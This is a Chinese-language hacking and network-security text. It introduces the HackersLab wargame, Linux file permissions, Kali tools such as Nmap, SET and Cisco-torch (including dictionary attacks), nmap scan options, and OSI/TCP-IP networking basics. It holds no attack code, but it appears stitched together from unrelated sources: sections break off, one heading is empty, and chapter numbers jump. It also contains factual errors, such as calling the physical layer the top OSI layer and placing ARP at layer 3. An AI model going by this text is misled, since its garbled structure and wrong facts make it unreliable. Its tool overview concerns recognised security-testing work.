你可能会问：我应该用哪个版本来跟随这本书？或者：我对这个或那个版本的 `Linux` 有好感，这会有影响吗？不，完全没有。我们只会在 `mode.shell`（文本）中使用命令。在这里 `shell` 中进行的所有操作都可以在图形界面中完成，命令在不同版本的系统上几乎没有变化。如果你不知道命令，别担心：在下一章中，我将简要解释你将用到的最重要的命令。即使你只有 Windows，也可以享受内容，因为你只需要通过 `telnet` 连接到 `HackersLab` 就会使用 `Linux`。这将在第一级逐步展示。

我们说了这么多这个 `HackersLab`……它到底是什么？`HackersLab Challenge` 是一种在安全领域和黑客圈广为人知的“游戏”。它是如此有名，以至于在由 `UFRJ`（里约内卢卢联邦大学）制作巴西版本之前就已经存在（`LockABit` (`www.lockabit.com`)）。挑战很简单（从好的方面来说）。你从级别 0 开始。目前有 18 个级别（从零开始）要破解。一旦你赢得挑战，就会获得顶级的密码。如果挑战结束了，这本书还会失去用处吗？当然不会。正如我所说，已经其他基于 `HackersLab` 的挑战，即使它们不存在，这本书教给你的知识也足够让你在自己的 `Linux` 系统上进行测试。如果我无法理解更高的级别怎么办？没关系……这本书永远是你的参考。它处于一个需要 `C` 编程的水平，而你仍然无法理解？首先，去学 `C` 吧。挑战的目标是让你像大师一样实际上进入第 17 。我可以为你指路，但你必须独自走这条路。如果你是安全世界的新手，我建议你阅读《黑客指南》，这样你将会有更好的基础来吸收这里将教的内容。

### 第 1 章 - 基础和本质 Linux：必要的入门

在本章中，我将涵盖你执行挑战所需的了解的 `Linux` 知识。基本上，我们将看到文本模式（`shell`）命令，这些是关于系统结构和用法的一些基本概念。在所示的挑战中，我将解释将使用的每个命令以及详细信息。


我们将使用结构划分为用户和组。这样做是为了让系统管理员对谁可以访问系统拥有更强的控制力。还有一个被称为“root”的“超级用户（superuser）”，无论权限如何（权限我们将在下文中看到），它都可以在系统中执行任何操作。一个实际的例子：我在系统 X 上的用户账户名为 `milestones` —— 这是 `/home/macros/` 文件夹中的一个空间，方便我存储文件。我在该系统中的组名为 `read`。这是 `root` 赋予的一个非原始名称，用于指定我组中的每个人仅具有读取文件的权限，仅此而已。

但为什么要分组呢？`root` 管理员无法直接将这些设置应用到账户中。虽然可以，但如果系统有数千个账户呢？那就麻烦了。分成组并集体执行权限是否比逐个操作要容易得多？

回到之前的例子，假设在 `/home/milestones` 文件夹内，我有权限做我想做的任何事情（读取、写入和执行文件……）。让我们开始吧。我创建了一个名为 `test.txt` 的文本文件。当我列出数据时，它看起来像这样：`-rwxr-x— milestones read 10297 test.txt ...` 我们得到了什么？我们不在乎 `test.txt` 之后的内容。让我们看看首字母，它们是我创建的文本文件的权限。它们的划分如下：`r` -> 读取，`w` -> 写入，`x` -> 执行，划分如下：类型：`-`，用户：`rwx`，组：`rx`，其他：`-`。解释：在“类型”中，它是空的，所以是一个文件。

类型后的前三个空格是用户权限，即谁创建了文件（查看名称）。用户 `milestones` 拥有 `rwx` 权限，他可以读取 (`r`)、写入 (`w`) 和执行 (`x`) 该文件。紧接着是组权限。权限将影响属于我组的每一个人（在这种情况下是 `read`组）。他们拥有 `rx`。由于他们没有 `w`，他们只能读取和执行，而不能写入。最后，最后三个空格留给除创建者（`milestones`）和所在组的人员（`read`）之外的所有用户。没有 `r`、`w` 或 `x` 权限的人对我的文件无所能为。除了 `r`、`w` 和 `x` 之外，还有一个权限位在后文中非常重要。这是 `s`，即所谓的 `SUID` 位，我们暂时不会讨论它。权限可以更改，文件所属的用户也可以更改。这些以及其他命令将在下一个主题介绍。

# 在 Kali Linux 中使用的黑客工具

在世界上存在的许多 Linux 发行版中，Kali 是最先进的之一。它是为特定目的而设计的，例如渗透测试和安全审计，并配备了一系列（伦理）黑客工具。

Kali Linux 的一个大区别在于其用于执行各种测试的本地工具库——超过 300 种。不用说该系统是免费、稳定、可靠的，并且可以通过大量的第三方应用程序进行补充。

本节的重点在于介绍 Kali 系统管理员可以依靠它们提高公司安全机制的工具。

要使用这些工具，你必须安装 `KALI Linux`。可以在互联网上找到资源，也有许多网站提供了逐步介绍如何下载和安装 Kali Linux 的教程。因此，在继续后续章节之前——从下载和安装 Kali Linux 开始吧！

## 第二章 - 信息收集与漏洞分析

无论软件产品开发得多么完善，任何软件产品都包含漏洞。其中一些仍然隐藏且互不干扰，而另一些则影响性能，或者更糟糕，为威胁利用存储在公司系统中的敏感数据打开了缺。在这种背景下，信息收集通过对系统及其资源、服务器数据、浏览历史、网络结构等进行更详细的调查来协作。

这种监控措施用于为黑客提供一个满意的信息基础，以启动威胁建模，然后进行攻击测试（模拟）。

反之，漏洞分析顾如其名，是使用执行系统范围漏洞分析的工具。

此类分析的结果允许例如将网络可能遭受的所有风险进行映射或记录在报告中，列出所有需要修正的弱点。

哪些工具最适合这些活动？请查看下面的 5 种工具：

### 1. NMAP
无疑，`Nmap` 是黑客使用的主要免费开源工具之一，广泛用于网络检测、分析和安全审计。简而言之，`Nmap` 被认为是收集任何活动机器特定信息细节的必备工具。要了解它的许多功能，官方网站提供了一份免费指南。

### 2. 社会工程工具包 (SOCIAL ENGINEERING TOOLKIT)
也称为 `SET`，社会工程工具包旨在协助针对人类元素的渗透测试。这些元素被嵌入在目标安全环境中，考虑到人通常是安全系统中的薄弱环节。

### 3. DNSENUM
`DNSenum` 是一个收集 DNS 服务器信息的工具。仅需几条基本命令即可搜索主机、服务器名称、IP 地址、日志和其他信息。

### 4. NESSUS
无疑，`Nessus` 是用于分析和审计的最完整的安全应用之一。它由获奖的 `Tenable` 开发，该公司为全球超过 21,000 家公司服务。通过 `Nessus`，安全专业人员可以同时运行多次扫描，获得持续的工具更新、各种插件以及通过仪表板生成的报告。

### 5. CISCO-TORCH
遵循同样的扫描工具路线，`Cisco-torch` 有一些特殊之处。其一是不断使用 fork（分叉）来启动多个后台扫描进程。根据《Hacking Exposed Cisco Networks》，这最大化地提高了检测漏洞的效率。开发者创建 `Cisco-torch` 的目的是为了找到一种敏捷的解决方案，使用 `SSH`、`Telnet`、`Web`、`NTP` 和 `SNTP` 协议远程发现 Cisco 主机，并对发现的服务器发起字典攻击。

## WEB 应用

当然，你已经知道或对 Web 应用程序有了很好的了解。但为了不留空白，我们将 Web 应用程序定义为运行在 Web 服务器上并通过浏览器访问的程序。对于 Web 应用程序，我们将讨论每个黑客都应该知道的特定工具：

### 1. NIKTO2
这是一个分析网站漏洞的应用程序。它执行：
* 测试网络上存在的超过 6,700 个潜在危险的文件和程序；
* 验证服务器配置；
* 分析可以自动更新的关键项目；
* 查询超过 1250 种过时的服务器版本及其特定问题。

`Nikto` 的特点是能够执行理论上非常复杂的活动。此外，当然它是一个免费工具。

### 2. PARSERO
与目前提到的其他工具不同，`Parsero` 不是软件，而是脚本。它用 `Python` 编写，读取 Web 服务器的 `Robot.txt` 文件并检查未授权的条目，这将告诉搜索引擎（Google、Ask、Bing 等）哪些文件或目录不应被索引。

有时，尽管路径限制了搜索引擎的访问，但直接进入网站的用户仍然可以。为了解决这个问题，`Persero` 脚本会检查每个标记为 `Disallow` 的条目的 `HTTP` 状态码，甚至通过 `Bing` 搜索未被正确索引的内容。

### 3. WAPITI
`Wapiti` 允许用户执行黑盒测试，这种方法在不检查内部结构的情况下检查应用程序的功能。该工具不研究 Web 应用程序的源代码，而是检查其实现的 Web 页面是否存在可以注入数据的脚本。当发现这些脚本时，`Wapiti` 会进行大量数据传输以测试其漏洞。

## 常用 Linux 命令


## 开始挑战

## 为什么要加入 HackersLab？
在开始享受乐趣之前，你必须注册系统。这样其他人才能关注你的进度，而且你还可以访问讨论论坛网站，此外，你的名字（或昵称）还可以出现在光荣榜上。只有在网站 [www.hackerslab.org](http://www.hackerslab.org) 注册，你才能阅读关于如何通过每个关卡的提供提示。为了节省精力，我将提示及其解释放在在一起。

## 执行注册

- **步骤 1**: 点击“Free Hacking Zone”（免费黑客区域）。
- **步骤 2**: 你需要一个账户才能查看问题。点击`Registration`注册）。
- **步骤 3**: 你必须填写带有 `*` 的必填字段，其他字段由你决定。
- **步骤 4**: 你的注册将成功。点击`View Problems`查看问题）。
- **步骤 5**: 输入你注册的 ID 和密码。
- **步骤 6**: 你看到级别 `0` 的问题了吗？每个关卡都有一个说明和一个提示。

## 访问服务器
现在是时候通过 `telnet` 访问 HackersLab 服务器了。通过输入 `telnet – drill.hackerslab.org` 进行连接。

在 Windows 中操作的示例：
进入开始 / `运行` 并输入：将出现一个窗口询问登录和密码。登录名为 `level0`，密码是 `guest`。

如果你在屏幕上看到很多垃圾，不要担心。证明——这些是韩语字符，而你的系统应该是英语（我们知道它绝不可能是葡萄牙语或任何次语言）。你已经连接上了。查看提示符，你正处于 `level0`。你需要找到某个具有 `level1` 权限的文件才能继续（我们稍后会看到）。现在假设你获取了 `level1` 的密码。如何访问它？

首先，回到 [www.hackerslab.org](http://www.hackerslab.org)。输入下一关的密码（在这种情况下为 `level1`）并点击 `Go`。如果密码正确，屏幕上将显示“Congratulations level up!（恭喜你过关！）”的消息，只需点击返回即可查看下一关的信息和提示。阅读完毕后，通过 `telnet` 重新连接到 `drill.hackerslab.org`，以登录 `level1` 和新密码登录。

## 教学结构
书中所有的关卡将以以下方式分类呈现：

- **Problem（问题）**: 原始文本及其解释。
- **Study（学习）**: 研究你通过此关卡需要具备什么种知识。例如，在处理缓冲区溢出和竞态条件的关卡中，我们对这些问题是如何发生的有详尽的研究。
- **Walkthrough（通过教程）**: 名称本身就说明了一切。它是专家逐步解决的步骤。阅读后，你将轻松理解本部分将进行哪些工作。

## 问答区 (Q&A)

**在我们的电脑上使用 `nmap localhost` 与从另一个主机使用 `nmap [ip of our host]` 有什么区别？**
>> 防火墙。显然，`nmap localhost` 不考虑防火墙并将开放端口视为开启状态，而如果我们尝试从另一台计算机访问，第一种情况下出现的开放端口在第二种情况下对我们来说是经过过滤的。

**如果我们使用 `-p “* ” 选项（例如 `nmap -p "*" scanme.nmap.org` ）会发生什么？它的优缺点是什么？**
>> 将分析被引用主机（s）的所有端口。优点是目标主机（s）的每一个 TCP 端口（可能是 65535 个端口）都被分析。主要的缺点是响应时间（默认情况下只扫描 1000 个常用端口）。

**如果我们执行 `-F` 选项会发生什么？它具有什么优缺点？**
>> `-F` 请求快速扫描（Fast Scan），其中仅扫描最常用的 100 个端口。与上一个问题相反，它是一个非常快的扫描器，但覆盖的端口少得多。

**激进扫描 (`nmap -A`) 等同于哪一组命令？**
>> 激进扫描等于操作系统 (`-O`)、版本 (`-sV`)、脚本扫描 (`-sC`) 和跟踪路由 (`- traceroute`) 的同时扫描。

**ARP 扫描在我们的内网外有效吗？**
>> 不

**我们在 nmap 扫描中执行的选项数量有限制吗？**
>> 尽管我们可以根据喜好使用几乎任何选项，但某些组合是无效的，大多数情况下是因为它们是矛盾的。如果我们测试这些组合，Nmap 会用消息指出。
例：`nmap -PN -sP [objective]`
`-PN` 要求不进行 ping 探测，而 `-sP` 请求进行 ping 扫描。

## 第 3 章 – 理解网络安全的一切

IT 安全围绕网络安全概念展开，因为网络作为组织资产具有重要性。这些网络整体上涉及各种设备，从存储到安全再到输入/输出，此外操作系统、数据、软件和人员。如果对这些软硬件组件有深入了解，实施和维护安全将是一项艰巨的任务。

专家认为，当人们采取积极措施缓解威胁和漏洞时，网络安全维护得最好。这是因为在一个快速变化的世界，新技术要求安全专业人员在易用性和安全性之间进行权衡。但作为开始，我们将检查这些网络组件、功能以及它们与安全的关系。此外，通过学习本章中的网络基础知识，我们应该能够理解传输安全，其中加密等策略将帮助你保护静态存储或传输中的数据。“通信与网络安全”领域有四个学习目标。

## 将安全设计原则应用于网络架构

现代世界离不开电子邮件、在线银行、互联网等许多服务。这显然是因为计算机现在能够通过网络进行通信。为此，协议发挥了在该介质上发送数据的主要功能。

然而，早期并没有这样无缝，因为公司创建了自己的协议，计算机之间很难交互。结果，在国际标准化组织 (ISO) 的努力下，OSI 模型诞生了。

尽管 TCP/IP 模型在多年来变成了首选标准，但自 80 年代以来，OSI 模型在帮助构建网络通信技术一直起着重要作用。现在，由于 OSI 和 TCP/IP 模型是网络化的基石，理解这些将使安全架构师和专业人员设计并实施保护传输和静态数据机密性和完整性的网络。

现在在详细查看 OSI 模型之前，有两点使其脱颖而出：

- 通信过程被分为七层，每层都独立工作并可以独立更改而不影响其他层。
- OSI 模型仍然继续作为硬件和软件开发者的框架，确保互操作性仍然像早期设想的那样是网络通信的一部分。

至于我们将要查看的 TCP/IP 模型，它开发得早近十年。虽然与 OSI 模型有一些相似之处，但它总共四层，与 OSI 模型层相对应。必须指出，由于其所享成功，OSI 模型确保了它包含了今天每个操作系统中可见的 TCP/IP 协议族。

### OSI 模型


如前所述，OSI 模型采用了分层方法，其中每一层都执行特定的功能。简单来说，它为每一层分配了单独的职责，这些职责决定了两个系统如何在互联网上进行通信。为了实现这一点，即使两个系统可能非常不同，它们也应该使用相同的协议。尽管 `TCP/IP Model` 在如今被广泛使用，但鉴于许多供应商使用它来创建自己的网络框架，同时保持开放的网络架构，`OSI Model` 仍然非常重要。

现在，当我们讨论 OSI 模型提供的七层时，我们也必须理解每一层都有其自己的一套协议。可以将一种常用协议想象成一组帮助两个系统通信的规则集。

尽管如此，即使网络上的计算机通过物理连接进行通信，也存在用于通信的逻辑通道。这些通道（或层）中的每一层都是独立运行的，即使它们会与下一层协同工作以确保数据传输。它们也被认为根据其他系统的 OSI 模型通过封装方法与其他系统上的相同层进行通信。

OSI 模型由七层组成，其中应用层被认为是第七层，也是顶层；而物理层是最底层。现在，当你想要传输的数据进入此协议栈时，它以数据流的形式开始旅程，并以比特的形式离开协议栈。当它通过每一层时，它会以报头和尾脚的形式添加更多信息，以确保数据以包的形式递送到目的地。这个过程取决于系统是在发送数据还是接收数据，被称为封装或解封装。换句话之，当系统接收数据时，会发生相反的过程。让我们从应用层开始逐层查看每一层：

### 第 7 层：应用层

作为发送数据时的顶层，它通过应用程序接口（`API`）从用户应用程序接收数据。结果，数据被添加到被称为协议数据单元（PDU）的容器中，然后交给表示层。在这一层运行的协议示例包括 `DNS` 查询、`SMTP` 电子邮件传输以及用于在网络传输传输的超文本传输协议（`HTTP`）。

### 第 6 层：表示层

有一点需要注意：接收数据的任何层都不会更改信息，而是添加有助于其到达目的地的信息。在表示层中，会进行数据格式的处理，以确保目标计算机上的相同层能够读取。在大多数情况下，它会识别应用程序之外的能够读取它的数据类型。

一个简单的示例涉及从 `Windows 10` 向 `Ubuntu` 系统发送 `PDF` 文档。表示层不仅会确定 `MIME` 类型（在这种情况下为 `pdf`），还会在发送数据到会话层时将此信息添加到报头中。

当它到达接收者的计算机时，表示层能够通过读取报头识别文件类型，这将打开一个 `PDF` 查看器来查看文件。该层还帮助文件的加密和压缩，与这两个方面有关的信息会被添加到目标系统的表示层，以便文件可以被解密和解压缩。尽管如此，如果你的计算机上没有可以打开该文件的应用程序，你系统中的表示层只会显示一个未关联的图标。

### 第 5 层：会话层

一旦协议数据单元传递到这一层，它将负责与接收系统上的应用程序或服务建立连接，并在数据传输后维护并关闭连接。至于它为必须建立连接的应用程序或服务添加的信息，这包括一个端口号，之后协议数据单元被传递到传输层。

对于该层试图建立的连接，它们由三种类型：

- 单向工（Simplex） - 在一个方向上通信
- 半双工（Half-duplex） - 通信在两个方向发生，即使数据只向一个方向发送
- 全双工（Full-duplex） - 在两个方向发生的通信和数据流

### 第 4 层：传输层

现在，一旦信息被添加到会话层，下一步是为正在进行的会话制定一些基本规则。这是通过握手过程完成的，即 `TCP` 的三次握手。现在在我们描述该层如何处理该操作之前，必须指出协议数据单元现在已转换为段（segment）。

传输层不仅决定了每次必须发送多少数据，还决定了它们传输到目标系统的顺序。此外，它还处理数据包丢失等问题，并验证数据的完整性。尽管如此，传输层还负责网络设备的引用或寻址标记。在该领域运行的一些流行协议包括传输控制协议（`TCP`）、用户数据报协议（`UDP`）、安全套接层（`SSL`）和传输层安全协议（`TLS`）。

虽然会话层和传输层都执行在数据传输期间建立和完成会话的共同功能，但前者在应用程序之间建立建立会话，而后者在两个计算机系统之间执行相同的功能。

### 第 3 层：网络层

一旦数据段被网络层接收，将为源和目的地添加 `IP` 地址，确定后者系统是位于同一网络还是远程网络。取决于情况，路由信息也会添加到段中。在此之后，该段现在被称为数据包，并将传递给数据链路层。简单来说，数据包将包含帮助从一个局域网（`LAN`）移动到另一个网络的信息。这一层的常见协议包括互联网协议（`IP`）、IP 安全协议（`IPSec`）、路由信息协议（`RIP`）和互联网消息控制协议（`ICMP`）。路由器是协助这些网络功能的设备。

### 第 2 层：数据链路层

数据链路层负责将接收到的包准备成帧（frame），发送到特定网络上的目标系统。这些网络中的每一个都有自己的硬件和技术。其中一些网络包括令牌环（`Token Ring`）、以太网（`Ethernet`）、异步传输模式（`ATM`）、光纤分布式数据接口（`FDDI`）和铜缆数据接口（DDI）。

数据链路层理解无错误传输数据所需的格式，然后将其传递给物理层。尽管如此，有两个数据链路子层执行这些任务，它们由逻辑链路控制（`LLC`）和介质访问控制（`MAC`）子层组成。是 `MAC` 子层确定了帧需要传输的网络类型，并将该信息添加到帧中。

最后，在这一层执行功能的协议包括点对点协议（`PPP`）、地址解析协议（`ARP`）和反地址解析协议（`RARP`）。

### 第 1 层：物理层


作为 OSI 模型中的顶层，`Physical`（物理）层接收来自 `Data Link`（数据链路）层的帧，并将其转换为比特（0 和 1）以便在网络上传输。当它以比特的形式接收数据时，它会将这些数据转换为帧并传输到 `Data Link Layer`（数据链路层）。必须指出，设备驱动程序运行在 `Physical` 物理层，以指示协议如何以比特的形式传输或接收帧。物理层的一些协议包括 `SONET`、`Bluetooth`（蓝牙）、`RS-232` 和 `DSL`。

此外，还有运行在该层的网络硬件设备，包括网卡（`NICs`）、集线器、中继器、放大器（`ampl`）集中器，它们有助于远距离传输信号。

由于这仅涵盖了有线连接，无线和光纤网络则使用交替的无线波和光来表示这些比特。

## TCP/IP 模型

如果说 OSI 和 `TCP/IP Model` 共同有一个方面，那就是数据包共享的概念。`TCP/IP Model` 由 `DARPA` 在 70 年代开发，它最初是实现为广域网（`WAN`）的。当然，我们所知的互联网是由这些广域网和互联网服务提供商组成的全球网络。

这两个模型之间的差异非常小，因为 `OSI Model` 提供七层，而 `TCP/IP Model` 仅使用四层。尽管如此，它们的功能非常相似，区别在于涉及数据传输时，`TCP/IP Model` 专注于 `TCP/IP` 协议。尽管，这是一个由 `TCP` 和 `IP` 协议以及其他几个协议组成的协议族。虽如此，即使 `OSI` 和 `TCP/IP` 模型相似，但在功能上，它们的层并不一定能够完美对应。

## 网络访问或链路层

`TCP/IP Model` 中的 `Network Access Layer`（网络访问层）结合了 OSI 模型中的 `Physical` 层和 `Data Link` 层。因此，通过使用 `LLC` 和 `MAC` 子层，它不仅会添加源和目的 `MAC` 地址等信息，还会添加尾部以验证数据的完整性。但并不是全部：它还承担着跨物理介质（光纤、有线或无线）发送比特的功能。此层使用的常用协议包括 `IEEE 802.3` 和 `802.11`，以及地址解析协议（ARP`）和邻居发现协议`NDP`）。

## 网上层

此层负责路由和寻找目的主机的位置。如果不是由 `Internet` 层确定，那么 `Transport`（传输）层将无法建立连接。它实现这一点是将源和目的 `IP` 地址放在数据包中。有四个协议对此有所帮助，即 `Internet Protocol v4` 和 `Internet Protocol v6`（`IPv4` 和 `IPv6`）、`Internet Control Message Protocol``ICMP`）、`Internet Group Management Protocol``IGMP`）和地址解析协议（ARPARP）。鉴于安全专业人员理解 `IP` 地址和分类非常重要，这值得关注。

## 主机传输层

当你在这里比较 `OSI` 和 `TCP/IP` 模型时，它们执行相同的功能，涉及在两个主机之间建立并维护连接。此功能必须在 `Application`（应用）层将数据发送到其他应用程序之前完成。通常有两种方式实现这一点，即无连接传输或面向连接的传输。对于前者，`UDP` 在 `Transport Layer`（传输层）作为无连接协议，而 `TCP` 是此处使用的面向连接的协议。

无论哪种更合适，端口号和传输协议将始终提供给接收主机。虽然 `TCP` 在功能和可靠性方面提供了更多支持，但这是有代价的。使用 `TCP` 协议时，头部比 `UDP` 协议大得多，尽管由于在任何数据传输之前发生的三次握手，所有数据包被交付的可能性更大。

## 应用层

`Application` 层也被称为进程间层，它处理了原本由 OSI 模型中的 `Application`（应用）、`Presentation`（表示）和 `Session`（会话）层负责的任务。换句话说，该层仅创建信息并将其发送到另一个主机上的其他进程或应用程序。运行在此层的协议执行特定的功能，这些功能与应用程序和服务有关。形成明对比的是，`Transport` 层协议仅检测位置和路由，以支持这些高层协议。与传输的数据一起，接收主机还会获得端口号，用于识别这些上层协议及其关联程序。

## IP 网络

正如我们在 `TCP/IP Model` 中学到的，`IP` 负责将数据包从源端传递到目的端。同时，在下一层，还会添加 `MAC` 地址。虽然 `IP` 地址是逻辑地址，但 `MAC` 地址是永久的，这就是为什么它被称为物理地址，并且它们被一起发送是有原因的。然后还有发送的端口号，用于指示 `Application` 层中协议关联的服务或程序。当你同时发送端口号和 `IP` 地址时，这通常被称为 `socket`（套字），对于将信息发送到正确的位置是必要的。

### IPv4

`IP` 地址被分为四个字节，如下所示：`192.13.139.130`。它为我们提供了有关网络号以及主机是谁的信息，根据分类，网络号范围可以从最左边的字节到三个最左边的字节，而第四个字节指向该网络内的主机。

当然，随着 20 世纪 90 年代无类域间路由引入的引入，`IP` 地址的分配不再基于网络中的主机数量，而仅基于可用未分配地址。

当然，现在仍在使用私有 `IP` 地址，它在四个分类中也有特定的范围。这些类型的地址被限制仅在私有网络内部使用，无法在互联网上路由。然而，有一种名为 `Network Address Translation`（网络地址转换）的临时服务，它可以在互联网上路由信息，同时将私有 `IP` 地址转换为公共地址并反之。尽管如此，即使这似乎对于将整个 `IP` 地址网络表示为单一地址是一个很有用的服务，但在处理 `IPv4` 地址缺失的问题时，`IPv6` 一直是首选方案。

## 网络传输类型

有多种介质类型用于传输数据，它们涉及独特的过程并具有不同的特征。让我们讨论一下这些常见的网络传输类型：


### 1: 模拟与数字

这可能是描述模拟电话中所用模拟信号的最佳示例。从本质上说，模拟信号具有无限数量的值。相反，计算机传输中的数字信号有两个值：开启（on）和关闭（off）。因此，数字信号更受青，因为它们对线路噪声的影响较小，与模拟信号相比，传输距离远得多。

### 2: 异步与同步

当两个系统进行通信时，使用相同的数据格式与使用相同的同步技术同样重要。异步数据传输使用起始位、停止位和校验位来确保数据的准确传输，而同步传输则采用一种时钟机制来同步发送者和接收者。显然，它使用了不同类型的错误检查，并且由于优于异步传输，被用于高速、大量的传输。

## 3: 宽带与基带

由于所有数据传输都通过信道进行，多次传输可能会使问题变得复杂。共享信道变得不可避免，这引出了我们处理此问题的宽带和基带方法。一种是在信道上为多次传输分配不同的时隙（也称为时分复用），而另一种方法是通过将介质划分为不同的频率来共享信道（也称为频分复用）。前者被称为基带，后者被称为宽带。由于后者允许数据同时传输，因此它是首选的数据传输方法。

## 4: 单播、多组播与广播

存在三种类型的传输，它们在接收范围上有所不同。单播（unicast）也被称为一对一，是从一个系统到另一个系统的传输。从一个系统发送到多个系统的信号被称为多组播传输（multicast）。最后，如果一个信号发送到网络中的每个系统，它被称为广播（broadcast）或一对全传输。

### 5: 有线与无线

由于并非所有传输都使用有线连接，比特的表示方式取决于你使用的介质类型。在铜线中，通过电压变化来实现，而在光纤电中，以 LED 或激光形式的光执行相同的功能。无线传输使用光或无线电波来实现相同的功能。

当数据包从有线网络移动到无线网络时，物理层和数据链路层容易变化，这需要使用相应的协议来处理这种变化。尽管如此，OSI 模型的其他层不会发生任何变化，就像这里描述的物理层和链路层一样。

## 网络类型

观察网络的第三种方式涉及网络类型。除了外网（extranet）和内网（intranet），常见的类型包括 `LAN`、`MAN` 和 `WAN`。

### LAN、MAN 与 WAN

`LAN` 的传统解释是指一组连接在办公室的计算机，但按照现代标准，它是任何速度大于 10 MBps 的网络。相反，`MAN` 是覆盖更大区域的广域网，服务范围类似于市中心区。它作为 `LAN` 连接的骨干。最后，`WAN` 将 `LAN` 和 `MAN` 连接在一起，通常作为电信公司提供的服务。当然，互联网是 `WAN` 的完美示例。尽管如此，并非所有的 `WAN` 都连接到互联网，而是组织付费的私有专用链路。

## 内网与外网

这两种网络类型都存在于组织内部，并出于安全目的而隔离。`intranet`（内网）是组织的内部网络，而 `extranet`（外网）向客户、业务合作伙伴和公众提供组织资源。尽管如此，敏感信息不应放在后者。`extranet` 应该被持续监控，就像 `intranet` 使用防火墙和强身份验证机制受到保护一样。

## 协议与服务

由于网络使用的日益普及，自 90 年代以来开发了许多新协议。与我们在 TCP/IP 模型应用层讨论的协议类似，这些协议与特定服务相关。我们之后将讨论的一些协议不仅位于应用层，还位于处理路由和数据包交付的较低层。如既往一样，端口或协议号被认为是重要的。

### ARP

地址解析协议（Address Resolution Protocol），该协议位于 OSI 模型的第 3 层。`ARP` 的目标是通过向网络发送广播帧来添加目标主机的 MAC 地址。具有唯一 IP 地址的目标主机会响应其 MAC 地址。此信息被添加到数据包头。

### DHCP

此服务帮助你自动为网络中的所有设备分配 IP 地址，并作为客户端存在于任何操作系统中。由于它是客户端/服务器程序，你甚至可以将其配置为服务器。这很容易，因为大多数操作系统都带有 `DHCP` 客户端。`DHCP` 使用 `UDP` 端口 67 和 68。

#### DNS

这项服务具有工具性作用，因为它可以将主机的 IP 地址解析为计算机名称。同样，域名被分配给网站。`DNS` 在大多数操作系统中作为客户端/服务器程序存在，并使用 `UDP` 和 `TCP` 端口 53。

### ICMP

`ICMP` 运行在 OSI 模型的网络层，系统用于在传输问题时传输错误消息。`ping` 和 `traceroute` 命令是该协议，有助于有助于连接问题。

### FTP, FTPS, SFTP, NFS & CIFS/SMB

文件传输协议 (`FTP`) 通常用于将文件从一个系统传输到另一个系统。`FTPS` 和 `SFTP` 是该协议更安全的版本。`NFS` 是用于 UNIX/Linux 系统的文件共享协议。`CIFS/SMB` 协议使用 `TCP` 端口 445。

### HTTP, HTTPS & SHTTP

`HTTP` 协议用于传输网页内容，还有两个安全版本，即 `HTTPS` 和 `SHTTP`。`HTTPS` 在 `SSL/TLS` 协议之上增加了 `HTTP`。虽然 `HTTP` 使用 `TCP` 端口 80，但 `HTTPS` 使用 `TCP` 端口 443。`SHTTP` 充着加密服务和保存的页面数据的作用。

### POP, SMTP & IMAP

所有三个协议都按顺序检索电子邮件。`POP3` 是最新版本，仅允许下载。`IMAP4` 从服务器访问电子邮件，但它不仅从服务器下载副本，还在那里留了一份。`SMTP` 与 `POP` 和 `IMAP` 不同，因为它用于电子邮件服务器之间的通信。

### SNMP

这种应用层协议从网络设备检索信息，并使用 `UDP` 161 以及 `TCP` 161 和 162 端口。尽管该协议容易受到数据嗅探和暴力破解攻击，但 `SNMPv3` 协议被认为是最安全的。

## 多层协议的影响

如你所见，封装在 TCP/IP 模型中起着重要作用，这使得产生了多层协议的可能性。在当今世界，已经开发了许多专有协议，并用于工业控制系统和电网。由于这些 `SCADA` 系统并不安全，安全架构师和专家正在学习如何保护这些关键系统。当然，还有其他用于盈利的多层协议。有些使用 `TCP/IP` 协议栈来路由自己的协议。如前面提到的，封装有助于创建多层协议，就像下面提到的这个简单示例：

```
[ Ethernet [ IPSec [ IP [ TCP [ SSL [ HTTP ] ] ] ] ] ]
```


如你所见，HTTP 被 SSL、TCP、IP、IPSec 和 Ethernet 封装，鉴于你可以支持具有高度灵活性和韧性的复杂网络结构，这被证明是很有优势的。缺点是，多层协议有时被用于执行任何无用或不积极的隐蔽任务。

特别是，有一种被称为分布式网络协议（`DNP3`）的多层协议，它主要应用于电力、水务公用和管理行业。其目的是促进现地数据采集与系统控制系统之间的通信。这种多层协议与 `TCP/IP` 协议族非常相似，并且是一个开放公共标准。

## 融合协议

融合协议是指将私有协议与标准协议（类似于 `TCP/IP`）合并的协议。事实上，人们可以使用支持 `TCP/IP` 网络基础设施来托管自己的服务。这可以节省资金，且可靠性和性能随实现方式而异。

以下是融合协议的四个示例：

### FCoE
光纤通道（Fibre Channel）是一种网络数据存储解决方案，可以帮助你以 `16 GBps` 及以上的速度传输文件。虽然在运行中使用的是光电缆，但开发了另一种更廉价的方案，即基于以太网的光纤通道（`FCoE`）。它作为 `Layer 3` 协议运行，使用独立的电缆并替换 `IP` 成为任何标准以太网的标准负载。

### MPLS
多协议标签交换（Multilayer Protocol Label Switching）避免了使用长网络地址，而是使用较短的路径标签在网络中移动数据。与传统的 `IP` 路由过程相比，这可以节省大量时间。最好的是：`MPLS` 可以管理不属于 `TCP/IP` 协议族甚至与该协议族本身不兼容的协议。

### VoIP
IP 语音（Voice over IP）被定义为可以在 `TCP/IP` 网络上移动数据或语音的隧道机制。它不仅被认为是计算机网络上 `PSTN` 的卓越替代方案，还可以用于智能手机。`VoIP` 提供视频会议和项目远程协作等重要功能。尽管如此，某些 `VoIP` 解决方案旨在取代电话机或作为软件使用。`Skype` 就是后者的一个例子。

### iSCI
`iSCI` 被认为是 `FCoE` 的低成本替代方案，是一种基于 `IP` 的网络存储标准。你可以使用这种与位置无关的技术通过 `LAN`、`WAN` 以及其他互联网连接来存储、检索和传输文件。

## 软件定义网络

软件定义网络为网络操作、设计和维护提供了新视角。组织在网络设计方面必须面对某些局限性，这就是为什么他们不得不坚持一家供应商。然而，通过 `SDN`，控制层（数据传输管理的网络服务）和基础设施层（硬件和硬件设置）分离。此外，由于 `SDN` 可以从中心位置编程，它提供的优势包括基于开放标准、厂商中立和灵活。最重要的是通过这种网络，组织可以根据高吞吐量或成本效益等优势使用他们选择的硬件。

## 无线网络

尽管无线网络最初因其带来的安全威胁而面临困难，但其在用户中的人气迅速飙升。随着安全技术的发展，这不再是一个问题，安全专业人员开始采用无线网络。现在，让我们来看与无线网络相关的概念。

### WLAN 与蜂窝技术

有线网络的数据通过不同的电压表示 0 和 1，而在无线网络中，这通过无线波表示。这种技术被称为调制，以下是用于在 `WLANs` 和蜂窝网络上传输数据的几种技术。

#### WLANs
